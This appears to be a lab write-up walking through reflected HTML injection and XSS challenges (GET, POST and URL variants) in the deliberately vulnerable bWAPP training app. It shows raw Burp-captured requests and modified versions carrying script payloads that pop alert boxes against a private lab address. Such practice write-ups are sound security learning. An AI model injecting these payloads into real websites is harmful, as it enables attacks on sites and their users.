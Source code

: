```yaml
---
layout: post
title:  "BWA - HTML Inject (XSS)"
postid: writeup
categories:
---
```

# HTML Injection - Reflected (GET) #
## Ask ##
First and Last Name

## Action ##
**Burp intercept and add below to inject**
```
<script>alert('Hello,world!');</script>
```

## RAW ##

```
GET /bWAPP/htmli_get.php?firstname=test&lastname=test&form=submit HTTP/1.1

Host: 172.16.57.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.57.129/bWAPP/htmli_get.php
DNT: 1
Connection: close
Cookie: PHPSESSID=u0dk36qhoj0ngbimoe9mdoov30; security_level=0
Upgrade-Insecure-Requests: 1
```

## MODIFY ##

```
GET /bWAPP/htmli_get.php?firstname=test&lastname=<script>alert("Hello%20world!")</script>&
form=submit HTTP/1.1
```

**Need to use `%20`, it does not take spaces**

<br />

# HTML Injection - Reflected (POST) #
## Ask ##
First and Last Name

## Action ##
**Burp intercept and add below to inject**
```
<script>alert('Hello,world!');</script>
```

## RAW ##
```
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 172.16.57.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.57.129/bWAPP/htmli_post.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
DNT: 1
Connection: close
Cookie: PHPSESSID=u0dk36qhoj0ngbimoe9mdoov30; security_level=0
Upgrade-Insecure-Requests: 1

firstname=test1&lastname=test2&form=submit
```

## MODIFY ##
```
firstname=test1&lastname=<script>alert('Hello,World!');</script>&form=submit
```

**Need to use `%20`, it does not take spaces**

<br />

# HTML Injection - Reflected (URL) #
## Ask ##
Your current URL: http://172.16.57.129/bWAPP/htmli_current_url.php

## Action ##
Change the URL

## RAW ##
```
GET /bWAPP/htmli_current_url.php HTTP/1.1
Host: 172.16.57.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=u0dk36qhoj0ngbimoe9mdoov30; security_level=0
Upgrade-Insecure-Requests: 
```

## MODIFY ##
```
/bWAPP/htmli_current_url.php#<h1>DefenderGB</h1><h2>Strikes_Again</h2><script>alert('Hello,World!');</script>
```

**You can't use `%20`, it will pass as %20.**